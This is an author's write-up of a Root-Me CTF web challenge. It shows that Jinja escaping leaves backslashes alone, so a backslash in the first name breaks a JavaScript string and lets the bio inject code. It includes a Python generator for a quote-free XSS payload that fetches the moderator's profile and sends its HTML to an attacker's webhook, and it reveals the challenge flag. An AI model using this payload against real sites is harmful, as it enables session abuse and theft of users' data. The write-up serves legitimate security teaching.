 ```yaml
---
title: Forum v2
description: Jinja filter bypass to XSS
summary: Jinja filter bypass to XSS
date: 2024-08-11
tags:
- Web
ctf:
- Root-Me CTF 20k
draft: true
---
```


**Note**: this write up is for a challenge I created for the Root-Me 20k CTF.

> That's it, the new Root-Me forum is finally online!
>   
> It's a new version, with a new design and new features. We finally replaced SPIP with new, modern technologies! We're obviously secured against security issues, with them... Right?

The source code for this challenge is available as an attachement, with a docker compose file to run it locally. It contains two containers, one for the website itself and one that runs a bot with a moderator role that will go and check profiles every few minutes.

![](home.png)

The website itself looks like a forum. As a normal user, the only features available are registering an account, logging in, and setting your bio on your profile.

By trying to see the moderator point of view by running the challenge locally, or by simply reading the code, we can also see that the moderator has a dedicated page to see the list of profiles that changed their bio, and he has the capability to check their profile. The container running a bot is simply visiting the profiles that edited their bio every 2 minutes.

It's easy to guess that the goal of this challenge is to find an XSS to compromise the moderator user run by the bot, because of the presence of the bot, and also from the fact that the flag is located in the moderator profile, meaning the goal is to compromise it.

The first thing to try is to enter some HTML in the different fields and see what happens. We quickly see that it always seems properly sanitized, because Jinja's templates are filtering the user input for HTML content when rendering it. Tags, double quotes and single quotes are replaced with their HTML entities instead.

After some tests, if we pay attention to the dev console and we're using a Chromium based browser, we can see a JavaScript error if we enter a `\` precisely in the end of the bio field. For some reason, in Firefox, the JavaScript error isn't reported by the browser in the console, even if it's still present.

![](backslash.png)

Once we look at the origin of this error, we can see that the `\` character is indeed not escaped by Jinja, and causes the ending quote of the JavaScript code to be escaped.

![](js_issue.png)

By escaping the ending quote in this line, we may have our XSS! Therefore, the trick here is to put a `\` in the first name of our user when we create it, so that its end quote is escaped. Then, in the bio that is put in the object as well, we can actually write some JavaScript, and it will be successfully part of the code. Great!

Except the Jinja filters still prevent us from using some characters, most notably the single and double quotes. So we must create our JavaScript payload according to this limitation, but there are tons of easy workarounds for not using them. In my case, I used `String.fromCharCode()` to create the string I want from its ASCII codes.

The straightforward solution to extract the flag now would be to use the classic method of redirecting the targetted moderator user to a webhook under our control with its cookies, so that we can log in as this user. However, in this case, the cookie is **HTTP only**, so we can't access it from JavaScript with `document.cookie`. \
However, using fetch to request resources from the website will transmit the cookie in the request and therefore we can still perform actions on behalf of the user on the website. So, we will just request the moderator profile page and send the text content of the response, in which is written the flag, to our webhook. Easy!

Because it's pretty painful to write such code by hand with the characters restrictions we have, I wrote a Python script to generate my JavaScript payload with the links I want. It looks like this:

```py
#!/usr/bin/env python3

import argparse

parser = argparse.ArgumentParser(description="Generate payload for the forum v2 challenge")
parser.add_argument("website_url", help="URL of the website")
parser.add_argument("webhook_url", help="URL of the webhook to send the flag to")
args = parser.parse_args()

profile_url = args.website_url + "/profile"
webhook_url = args.webhook_url

def to_charcodes(string):
    return "String.fromCharCode(" + ",".join([str(ord(c)) for c in string]) + ")"

payload = f", a: fetch({to_charcodes(profile_url)}).then(function (r) {{ r.text().then(function (t) {{ fetch({to_charcodes(webhook_url)}, {{ method: {to_charcodes('POST')}, credentials: {to_charcodes('include')}, mode: {to_charcodes('no-cors')}, body: t }}) }}) }}) }}//"

print("Go to the website and set an account to the following:")
print("- firstname = " + "\\")
print("- bio = " + payload)
print("After a few minutes, you will receive in your webhook a POST request with the HTML of the moderator profile page, containing the flag.")
```

We just have to run it, put the values it gives in the first name / bio of our user, and wait for the bot to visit our updated profile. After a few minutes, we successfully receive the HTML content of its profile with the flag in our webhook!

![](bio.png)

Flag: `RM{j1nj4_f1lt3r5_4r3_n0t_3n0ugh!!!}`
